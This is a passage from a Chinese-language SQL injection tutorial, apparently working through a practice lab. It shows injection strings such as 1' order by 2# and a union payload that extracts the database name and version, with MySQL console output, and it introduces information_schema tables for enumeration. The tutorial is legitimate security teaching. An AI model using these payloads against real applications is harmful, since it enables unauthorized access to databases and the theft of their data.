 `union` 查询的表的列数要一致。

注入的时候可以用  `order by 2` 去知道后端查询语句有多少列：`1' order by  2#`

`order by <number>` 这里是根据查询结果中的某列进行排序，如果 `number` 大于查询出来的列出，那么会报错：

```sql
# 根据结果第一列进行排序 ✅
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 1 #'
    -> ;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Bob        | Smith     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
+------------+-----------+
5 rows in set (0.00 sec)

# 根据结果第二列进行排序，正常 ✅
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 2 #'
    -> ;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
| Bob        | Smith     |
+------------+-----------+
5 rows in set (0.00 sec)

# 根据结果第三列进行排序，报错 ❌
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 3 #'
    -> ;
ERROR 1054 (42S22): Unknown column '3' in 'order clause'
```

构造 `union` 语句获取数据库名称和版本：`1' union select database(), version() ;#`

![](https://img.wukaipeng.com/2023/0922-085205-image-20230922085204940.png)

🌟 数据库  `information_schema` 

三个重要的表：

1. `SCHEMATA`： 包含所有数据库的名字
2. `TABLES`：包含所有数据库的所有表，默认字段为 `table_name`
3. `COLUMNS`：包含所有数据的所有表的所有字段

三个重要的列
